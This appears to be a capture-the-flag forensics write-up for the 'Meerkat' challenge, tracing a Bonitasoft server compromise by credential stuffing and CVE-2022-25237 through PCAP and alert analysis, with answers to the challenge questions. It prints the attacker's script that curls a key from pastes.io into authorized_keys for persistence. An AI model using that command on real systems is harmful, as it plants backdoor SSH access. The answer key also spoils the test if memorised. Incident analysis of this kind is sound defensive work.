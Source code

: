 # Meerkat

#wireshark #jq #http

## Speech
```
As a fast-growing startup, Forela has been utilising a business management platform. Unfortunately, our documentation is scarce, and our administrators aren't the most security aware. As our new security provider we'd like you to have a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.
```

## Analysis
- Two files, a pcap and a json, I opened the pcap with wireshark and i'll use jq for analysing the json file.

### Wireshark
1. The packets protocol analysis tell us they are some HTTP and SSH (both can be very interesting)
![Wireshark Packets Protocl Analysis](../../img/Meerkat/00_packets_protocol_analysis.png)
2. I'll focus on the HTTP, I ordered by protocol and go on http
! [The beginning of HTTP packets](../../img/Meerkat/01_http_overview.png)
3. We see a lot of 401 from the endpoint */bonita/loginservice*, probably a Brute force, we can look at the packets to see the *HTLM Form* arguments passed and see the "payload" of the attacker
    - We see a lot of "username = "install" & "password" = "install" (not very interesting) but between those we have email of *forela.co.uk* (the company we work for) with not common password, the attacker is probably using a leak of email/password to try to connect (**Credential Stuffing**)
    - Also intersting to see the user-agent is : `python-requests/2.28.1`, so an automated tool/script
    - The IP of the attacker : 156.146.62.213
4. We find the packet with a success connection (packet 2918)
![Connection success](../../img/Meerkat/02_success_brute_force.png)
5. Packet 2921 is very interesting, the attacker uploaded a file
![Upload a malicious file](../../img/Meerkat/03_file_uploaded.png)
   - We can see the filename, also in the *Request URI we have info on how he bypass some restriction
6. After his upload he executed some code on the machine (like whoami or cat /etc/passwd)
7. Let's take a look at the DNS query, we see query to *pastes.io*, why pastes.io ?
    - Let's search for string pastes.io in all packet (Edit>Find Packet...) :
    ![Search for pastes.io](../../img/Meerkat/04_find_pastes_io.png)
    - He did a wget to : *https://pastes.io/raw/bx5gcr0et8* We can do the same, or just visit this webpage, we get :
    ```
    #!/bin/bash
    curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
    sudo service ssh restart
    ```
    - This file is a bash script, this bash script is adding a key to th authorized_keys file of the user .ssh

### JQ
1. I'll begin with a command to get all the alert from the Attacker's IP : `jq 'map(select(.src_ip == "156.146.62.213"))' meerkat-alerts.json`, then I added `| grep 'signature"'` to see what signature/type of alert was raised
    - Interesting signature, seems to be linked to the brute force (also contains the name of the software) : `"signature": "ET WEB_SPECIFIC_APPS Bonitasoft Default User Login Attempt M1 (Possible Staging for CVE-2022-25237)"`
    - Two others interesting signautre : `"ET EXPLOIT Bonitasoft Authorization Bypass and RCE Upload M1 (CVE-2022-25237)"` et `"ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)"`
2. With this : `jq 'map(select(.alert.signature == "ET EXPLOIT Bonitasoft Authorization Bypass and RCE Upload M1 (CVE-2022-25237)" or .alert.signature == "ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)"))' meerkat-alerts.json` But nothing really interesting :/
Now let's go on the Questions, in order to see what we have already answer and not yet find

## Questions
1. We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?
    - Bonitasoft (cf. Analysis>JQ>1)
2. We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?
    - *Credential Stuffing (cf. Analysis>Wireshark>3)
3. Does the vulnerability exploited have a CVE assigned - and if so, which one?
    - CVE-2022-25237 (cf. Analysis>JQ>1)
4. Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?
    - i18ntranslation (cf. Analysis>Wireshark>5)
5. How many combinations of usernames and passwords were used in the credential stuffing attack?
    - 56 (I took the command from the Analysis>JQ>1 and then count)
    ![Count number of combinations](../../img/Meerkat/05_count_number_tentatives.png)
6. Which username and password combination was successful?
    - seb.broom@forela.co.uk:g0vernm3nt (cf Analysis>Wireshark>4)
7. If any, which text sharing site did the attacker utilise?
    - pastes.io (cf. Analysis>Wireshark>7)
8. Please provide the filename of the public key used by the attacker to gain persistence on our host.
    - hffgra4unv (cf. Analysis>Wireshark>7)
9. Can you confirmed the file modified by the attacker to gain persistence?
    - /home/ubuntu/.ssh/authorized_keys (cf. Analysis>Wireshark>7)
10. Can you confirm the MITRE technique ID of this type of persistence mechanism?
    - T1098.004 (After a little bit of research we found : [Account Manipulation: SSH Authorized Keys](https://attack.mitre.org/techniques/T1098/004/))